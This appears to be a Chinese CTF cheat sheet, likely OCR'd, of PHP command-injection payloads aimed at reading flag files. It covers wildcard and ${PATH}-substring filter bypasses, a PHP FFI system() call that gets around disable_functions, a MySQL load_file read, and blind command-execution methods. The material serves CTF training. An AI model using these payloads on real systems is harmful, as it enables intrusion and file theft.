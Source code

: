 寻找 特殊的命令 有字符但没有数字的 有数字但没有字母的

```
?c=/bin/base64 flag.php(flag.php全靠猜)
?c=/bin/bzip2 flag.php
?c=/???/????2 ????.???
```

### 16 绕过ob_get_contents

`死亡exit（）`

### 17 绕过disable_function

详情见pentest武器库

#### php7.4 FFI扩展

```
c=?><?php $ffi = FFI::cdef("int system(const char *command);");$ffi->system("/readflag > a.yxy");exit();
```

无回显

### 18 mysql数据库读文件

```
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```

### 19 linux内置命令

#### 常用内置变量：https://blog.51cto.com/allenh/1695810

```
${PATH:14:1}${PATH:5:1} ????.??? nl flag.php
${PATH:~1}  == ${PATH:~a}
在linux中可以用~获取变量的最后几位
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.??? ./base64 flag.php
${PWD::$?}???${PWD::$?}?????${#RANDOM} ????.???
```

### 20 命令执行盲注

```
截取字符串可以用awk等命令
判断命令执行结果可以用shell编程的if语句和sleep()函数
awk逐行获取
cut命令截取单独的字符
shell编程,if语句控制输出,sleep控制相应时间
```
